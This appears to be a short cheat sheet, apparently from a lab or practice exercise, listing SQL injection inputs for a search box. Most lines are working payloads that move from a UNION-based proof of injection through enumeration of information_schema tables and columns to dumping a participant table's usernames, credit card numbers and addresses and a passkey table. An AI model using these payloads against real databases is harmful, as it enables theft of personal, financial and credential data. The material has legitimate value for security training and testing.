 # Injection options

1. <empty> -> Displays everything

2. water -> Displays water related 

3. ';# -> Displays everything

4. water%' UNION (SELECT 1,2,3,4 FROM dual);#
	-> Proves we can SQL Inject

5. water%' UNION (SELECT 1,TABLE_NAME,TABLE_SCHEMA,4 FROM information_schema.tables);#
	-> Grabs info from information_tables

6. water%' UNION (SELECT 1,COLUMN_NAME,3,4 FROM information_schema.columns WHERE TABLE_NAME = 'participant');#
	-> TO grab participant info

7. water%' UNION (SELECT idparticipant,username,ccnum,address FROM participant);#
	-> Gets participant specific info

8.  water%' UNION (SELECT  null,idpasskey,value,idparticipant FROM passkey);#
  -> Gets passkey table info